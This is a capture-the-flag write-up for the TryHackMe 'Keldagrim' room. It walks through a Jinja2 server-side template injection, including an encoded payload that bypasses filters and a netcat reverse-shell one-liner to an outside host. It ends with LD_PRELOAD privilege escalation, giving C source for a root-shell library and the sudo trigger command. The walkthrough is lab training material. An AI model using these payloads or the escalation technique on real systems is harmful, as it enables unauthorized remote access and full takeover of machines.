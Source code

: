 # Keldagrim

"The dwarves are hiding their gold!"

https://tryhackme.com/room/keldagrim

A fun room, with some rarer techniques and difficulties to get in.

1. Recon via nmap revealed just 22 and 80
2. On 80 was a 'gold mining' site, for MMOs - enumeration revealed no hidden directories or functionality
3. However, triggering a 404 would result in a page reflecting the bad URL. Classic XSS, but more relevant here, also SSTI (server side template injection).
4. The server helpfully reported it was running python, and using the url `/{{7*'7'}}` resulted in `bad url /7777777` or similar, which indicated this was Jinja2 or similar.

At this point I got stuck and had to sleep on it. Many of the common SSTI injections failed: while I could call `config.items()` to get data that showed I was on the right track (including a message under secret_key called 'if_only_this_was_a_flag'... thanks), all the next step injections failed, trying to get RCE, with a bland 500 error. It appeared that brackets and periods would both fail. Ultimately I found a payload that escaped both, from this blog: https://gusralph.info/jinja2-ssti-research/. The payload was:

```
/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

This showed the user jed, bingo. Commands with spaces (e.g. `ls -la`) still failed however. Using + and %20 failed, but looking at the rest of the injection, hex encoding worked, e.g. `\x20` for spaces so the command would be `ls\x20-la`.

5. Trying the standard shell binder I use, `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.176.61 4444 >/tmp/f` failed. I tried various encodings and got weird results, so in the end used cyberchef to render it to hex, and set the spaces between characters to `\x`, resulting in this final payload which worked:

```
/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x30\x2e\x31\x37\x36\x2e\x36\x31\x20\x34\x34\x34\x34\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```

6. On the machine as Jed, the user flag is in their home dir (could have got this with the SSTI RCE already). Running sudo -l revealed:

```
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
```

7. Being able to run ps as sudo is worthless, normally. I was stuck here for a bit, so ran linpeas.sh which revealed the bit I had missed: above, at the end of the default entries, is env_keep+=LD_PRELOAD

8. An LD_PRELOAD exploit is simple to perform. On my host machine I created shell.c like so:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

9. I then compiled this using `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`, then started a python webserver so i could download the binary to the client
10. Finally I triggered the exploit and got a root shell: `sudo LD_PRELOAD=/tmp/shell.so /bin/ps`

A small, two step room basically, but with some rarer privesc techniques, so fun.
